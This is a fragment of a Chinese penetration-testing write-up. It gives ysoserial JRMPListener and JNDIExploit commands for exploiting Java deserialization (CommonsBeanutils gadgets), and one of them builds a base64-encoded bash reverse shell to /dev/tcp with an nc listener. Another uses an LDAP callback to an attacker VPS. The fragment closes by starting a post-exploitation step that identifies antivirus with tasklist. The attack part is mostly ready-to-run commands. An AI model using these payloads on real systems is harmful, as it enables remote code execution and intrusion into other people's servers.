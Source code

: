 ```php
Linux：
java -cp ysoserial-0.0.8-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils1 "bash -c {echo,字段}|{base64,-d}|{bash,-i}"  
字段=bash -i >& /dev/tcp/x.x.x.x/8888 0>&1 base64后的值  
nc -lvp 端口

Windows：
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i VPS地址  
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils2 "ldap://VPS地址:1389/Basic/Command/Base64/d2hvYW1p"  
d2hvYW1p为命令的base64，这里是执行命令whoami
```

![image_wvD-c4KvV-.png](assets/1698900866-9ff58dac3c05944aa595013491fba0b5.png)

# 0x02 内网渗透

## 杀软识别

拿到一台机器后，一般先看一下安装了什么安全防护产品

`tasklist /svc`

![-rr-ew4zvx_bjnBTV1EhH.png](assets/1698900866-5e0cd900eb83e8a237ff3f9db542e67c.png)
